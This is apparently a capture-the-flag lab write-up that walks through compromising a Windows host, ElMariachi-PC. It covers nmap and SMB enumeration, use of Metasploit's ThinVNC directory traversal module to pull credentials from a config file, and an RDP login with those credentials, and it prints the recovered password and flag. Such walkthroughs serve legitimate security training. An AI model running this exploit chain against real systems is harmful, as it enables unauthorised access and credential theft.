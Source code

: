 └─# nmap -sV -Pn -p- -A --min-rate 5000  10.150.150.69
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn?
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-09-12T16:37:33+00:00; +34m55s from scanner time.
| ssl-cert: Subject: commonName=ElMariachi-PC
| Not valid before: 2023-09-11T13:09:13
|_Not valid after:  2024-03-12T13:09:13
| rdp-ntlm-info: 
|   Target_Name: ELMARIACHI-PC
|   NetBIOS_Domain_Name: ELMARIACHI-PC
|   NetBIOS_Computer_Name: ELMARIACHI-PC
|   DNS_Domain_Name: ElMariachi-PC
|   DNS_Computer_Name: ElMariachi-PC
|   Product_Version: 10.0.17763
|_  System_Time: 2023-09-12T16:37:07+00:00
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
50417/tcp open  msrpc         Microsoft Windows RPC
60000/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Type: text/html
|     Content-Length: 177
|     Connection: Keep-Alive
|     <HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.<P></BODY></HTML>
|   GetRequest: 
|     HTTP/1.1 401 Access Denied
|     Content-Type: text/html
|     Content-Length: 144
|     Connection: Keep-Alive
|     WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="/aCkxKwP5kAI7EcCrA/mQA==", opaque="n6CJDKcTjoQGYsVjU2D2GcLWDGfrGf66oZ"
|_    <HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL requires 
Running (JUST GUESSING): Microsoft Windows 10|2008|7|Vista|Longhorn|8.1 (95%), Microsoft embedded (92%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/h:microsoft:xbox_one cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 10 1709 - 1909 (95%), Microsoft Windows 10 1511 (95%), Microsoft Windows 10 1703 (95%), Microsoft Windows Server 2008 R2 (95%), Microsoft Windows Server 2008 SP2 (95%), Microsoft Windows 7 Enterprise SP1 (95%), Microsoft Windows 7 SP1 (95%), Microsoft Windows 8.1 Update 1 (95%), Microsoft Windows 8 (95%), Microsoft Windows Vista SP1 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 34m54s, deviation: 0s, median: 34m54s
| smb2-time: 
|   date: 2023-09-12T16:37:07
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   444.97 ms 10.66.66.1
2   448.24 ms 10.150.150.69

i tried ┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/Pwntilldawn]
└─# smbclient -L 10.150.150.69
Password for [WORKGROUP\kali]:
session setup failed: NT_STATUS_ACCESS_DENIED

then i tried this also: ─# nmap --script "safe or smb-enum-*" -p 445 10.150.150.69
but nothing

Ok when i try also:
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/Pwntilldawn]
└─# nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 10.150.150.69
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-12 12:21 EDT
Nmap scan report for 10.150.150.69
Host is up (1.0s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
| rdp-ntlm-info: 
|   Target_Name: ELMARIACHI-PC
|   NetBIOS_Domain_Name: ELMARIACHI-PC
|   NetBIOS_Computer_Name: ELMARIACHI-PC
|   DNS_Domain_Name: ElMariachi-PC
|   DNS_Computer_Name: ElMariachi-PC
|   Product_Version: 10.0.17763
|_  System_Time: 2023-09-12T16:56:24+00:00
| rdp-enum-encryption: 
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|     RDSTLS: SUCCESS
|     SSL: SUCCESS
|_  RDP Protocol Version:  RDP 10.6 server

Nmap done: 1 IP address (1 host up) scanned in 16.28 seconds

Then found nothing i go ahead and read the open port and found on port 60000 that WWW-Authenticate:
60000/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Type: text/html
|     Content-Length: 177
|     Connection: Keep-Alive
|     <HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.<P></BODY></HTML>
|   GetRequest: 
|     HTTP/1.1 401 Access Denied
|     Content-Type: text/html
|     Content-Length: 144
|     Connection: Keep-Alive
|     WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="/aCkxKwP5kAI7EcCrA/mQA==", opaque="n6CJDKcTjoQGYsVjU2D2GcLWDGfrGf66oZ"

and it's ThinVNC, now i openup my msfconsole and search for exploit msf6 > search ThinVNC

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/thinvnc_traversal  2019-10-16       normal  No     ThinVNC Directory Traversal
msf6 auxiliary(scanner/http/thinvnc_traversal) > set rport 60000
rport => 60000
msf6 auxiliary(scanner/http/thinvnc_traversal) > exploit

[+] File ThinVnc.ini saved in: /root/.msf4/loot/20230912123534_default_10.150.150.69_thinvnc.traversa_604299.txt
[+] Found credentials: desperado:TooComplicatedToGuessMeAhahahahahahahh
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

Then i opened it:
└─# xfreerdp /u:desperado /p:TooComplicatedToGuessMeAhahahahahahahh /v:10.150.150.69      

flag= 2971f3459fe55db1237aad5e0f0a259a41633962
